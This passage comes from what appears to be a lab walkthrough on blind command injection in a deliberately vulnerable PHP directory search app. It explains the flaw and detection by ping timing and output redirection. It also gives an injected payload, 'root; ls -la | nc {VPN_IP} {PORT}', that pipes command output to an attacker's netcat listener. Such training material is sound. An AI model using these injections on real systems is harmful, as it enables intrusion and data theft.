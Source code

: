 **What is Blind Command Injection?**

Blind command injection occurs when the system call that's being made does not return the response of the call to the Document Object Model (or DOM).  The DOM is where the HTML is rendered.  This walkthrough isn't about web development so for the purposes of this room, you can consider the DOM the canvas of an HTML document.

Sometimes the user inputs a test command to try to see if the server is vulnerable to command injection, the command is executed by the server-side code on the server and the code doesn't output the response.  For example, let's look at the code for the Directory Search application that Evil Corp developed.  It's very poorly written and is vulnerable to blind command injection.  See if you can figure out why before continuing on.  I'll explain it below.

**Directory Search (index.php) Code Example**

![](https://i.imgur.com/lB8diiC.png)

In pseudocode, the above snippet is doing the following:

1. Checking if the parameter "username" is set
2. If it is, then the variable `$username` gets what was passed into the input field
3. The variable `$command` gets the system command `"awk -F: '{print $1}' /etc/passwd | grep $username";` where `$username` is what was entered in step 2.  This command is printing out the list of users from `/etc/passwd` and then selecting the one that was entered.  Note that this is not executing anything yet.
4. Variable `$returned_user` then gets the result/return value of the function `exec($command)`.

The rest of the code is fairly straightforward; set `$result` to a Bootstrap danger alert class if nothing was found in `/etc/passwd` and a success alert class if something was found.  Easy-peasy.

**Ways to Detect Blind Command Injection**

As I mentioned above, blind command injection occurs when the response of the HTTP request is not returned to the DOM.  You can see in the above code that the response is never returned anywhere on the page.  The only thing that gets returned is an alert that says whether a user was found on the system or not.  For the purposes of this room, I made the alert tell you what was going on, but sometimes it won't be that easy.  So here are a few ways to tell whether you have blind command injection or not.

**Ping!**

Yes, your friend ping can help you tell whether you have blind command injection or not.  Since the code is making a system call in some way, a ping will cause the page to continue loading until the command has completed.  So if you send a ping with 10 ICMP packets, the page should be loading for about 10 seconds.  If you send 20(!) packets, it should take about 20 seconds, and so on.

**Redirection of Output**

Ping is usually enough to tell you whether you have blind command injection, but if you want to test further, you can attempt to redirect the output of a command to a file, then, using the browser, navigate to the page where the file is stored.  We all know the > Bash operator redirects output to a file or process so you could try redirecting the output of id, whoami, netstat, ip addr or other useful command to see if you can see the results.

**Bypassing the Blind Injection with Netcat**

In the spirit of full disclosure, there is a way to bypass the blind injection with netcat.  You are able to pipe the output of a command to a nc listener.  You could do something like `root; ls -la | nc {VPN_IP} {PORT}` . This will send the output of `ls -la` to your netcat listener.
